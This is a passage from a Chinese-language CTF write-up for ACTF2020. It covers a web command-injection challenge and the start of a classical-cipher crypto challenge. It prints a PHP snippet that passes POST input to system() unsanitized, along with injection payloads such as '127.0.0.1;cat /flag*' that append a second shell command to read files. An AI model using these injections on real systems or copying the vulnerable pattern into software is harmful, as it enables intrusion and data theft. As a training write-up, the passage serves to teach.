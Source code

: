 ![cataa](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/ACTF2020/web/simlple_exec/1.png)

点ping按钮会执行ping命令，应该是用了system函数，于是试了一下末尾加上`;cmd`执行命令

> 127.0.0.1;ls
> 127.0.0.1;cat index.php 

```php
<?php
if (isset($_POST['target'])) {
	system("ping -c 3 ".$_POST['target']);
}
?>
```
什么过滤都没有，直接读flag即可：

> 127.0.0.1;cat /flag*



------

# Crypto

密码学从入门到放弃

## classic0

- 题目描述：

  > 小Z用C语言编写了一个最简单的密码系统，里面都采用的是最简单的古典加密。但是他的源程序不幸泄露，聪明的你能否解读他采用的算法并进行解密？flag格式为actf{***}

- 题目地址：[crypto-classic0.zip](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/ACTF2020/crypto/crypto-classic0/crypto-classic0.zip)

- 考察点：逆向分析

- 难度：入门

- 分值：100

- 完成人数：11

提示密码是生日，于是暴力解压缩包密码，得到`19990306`，解压出加密程序的代码：

```c
#include<stdio.h>

char flag[25] = ***

int main()
{
	int i;
	for(i=0;i<25;i++)
	{
		flag[i] -= 3;
		flag[i] ^= 0x7;
		printf("%c",flag[i]);
	}
	return 0; 
}
```
